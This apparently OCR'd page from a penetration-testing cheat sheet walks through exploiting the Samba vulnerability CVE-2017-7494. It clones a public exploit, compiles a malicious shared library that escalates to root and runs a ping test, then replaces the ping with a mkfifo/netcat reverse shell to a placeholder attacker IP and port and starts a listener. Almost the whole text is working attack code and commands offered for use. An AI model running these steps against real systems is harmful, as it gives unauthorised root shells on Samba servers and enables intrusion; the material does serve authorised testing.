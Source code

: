 ```
# Download exploit code
git clone https://github.com/joxeankoret/CVE-2017-7494
```

Create a new file named poc.c :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("ping -c 3 <IP>");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start an ICMP listener
sudo tcpdump -i <INTERFACE> icmp

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

If you reiceve 3 pings on your listener then the exploit works. Now let's get a shell :

```
#include <stdio.h>
#include <stdlib.h>

int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f");
}
```

```
# Build
gcc -o test.so -shared poc.c -fPIC
```

```
# Start a listener
nc -lvp <PORT>

# Exploit
./cve_2017_7494.py -t <TARGET_IP> -u <USER> -P <PASSWORD> --custom=test.so
```

---

